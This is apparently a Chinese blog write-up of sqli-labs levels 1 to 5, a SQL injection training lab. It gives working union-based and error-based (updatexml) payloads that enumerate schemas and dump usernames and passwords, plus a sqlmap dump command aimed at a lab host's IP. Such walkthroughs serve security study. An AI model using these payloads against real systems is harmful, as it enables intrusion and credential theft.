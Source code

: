 ﻿﻿---
title: sqli-labs(1~22)
date: 2019-03-07
---
[sqli-labs网址链接](http://43.247.91.228:84)
## less-1
**方法一：**
输入?id=1正常显示，输入?id=1'报错，输入?id=1' and 1='1，正常显示，得知是字符型注入，
爆字段： `?id=1' order by 3--+` 
查看回显内容：`?id=-1‘ union select 1,2,3--+`
爆库名，版本号：`？id=-1' union select 1,database(),version()`
爆所有数据库：`?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata%23`
爆表名：`?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'%23`
爆列名：`?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'%23`
爆数据：`?id=-1' union select 1,2,group_concat(id,username,password) from users%23`

**方法二：**
借助sqlmap软件直接爆破
最终payload：`./sqlmap.py -u "http://43.247.91.228:84/Less-1/?id=1"  -D security -T users --dump`
得到的数据结果如下：
![获取数据](https://s2.ax1x.com/2019/02/27/kTWpG9.png)
## less-2
输入1'，根据报错信息确定输入的内容被原封不动的带入到数据库中，输入?id=1 and 1=1,显示正常，得知是数字型注入，将单引号去掉，其他方法步骤和less-1一样，不再重复了。
直接上爆数据payload：`?id=-1 union select 1,2,group_concat(id,username,password) from users%23`
sqlmap同样可以直接爆破，payload后的参数和less-1一样。
## less-3
单引号报错，输入1'，根据报错信息发现输入的内容后有')，想到应该以 ') 来闭合表达式，脑补一下输入1后的sql语言，形如select ... from ... where id=('1') ...，在第一题中id=1的后面加上'）,其他步骤和方法和less-1一样，不再重复了。
直接上爆数据payload：`?id=-1') union select 1,2,group_concat(id,username,password) from users%23`
sqlmap同样可以直接爆破，payload后的参数和less-1一样。

## less-4
双引号报错，输入1'，显示正常，输入1'',根据报错信息发现输入的内容后有")，想到应该以 '') 来闭合表达式，脑补一下输入1后的sql语言，形如select ... from ... where id=(''1'’) ...，在第一题中id=1的后面加上''）,其他步骤和方法和less-1一样，不再重复了。
直接上爆数据payload：`?id=-1") union select 1,2,group_concat(id,username,password) from users%23`
sqlmap同样可以直接爆破，payload后的参数和less-1一样。

## less-5
输入之前的内容发现不再显示数据信息，应该是报错注入或者盲注。
输入?id=1'报错，根据sql语法错误提示，得知是字符型报错注入。
爆库名：`?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23`
爆表名：`?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1)%23`
爆列名：`?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1)%23`
爆数据：`?id=1' and updatexml(1,concat(0x7e,(select group_concat(id,username,password) from users),0x7e),1)%23`
sqlmap同样可以直接爆破，payload后的参数和less-1一样。

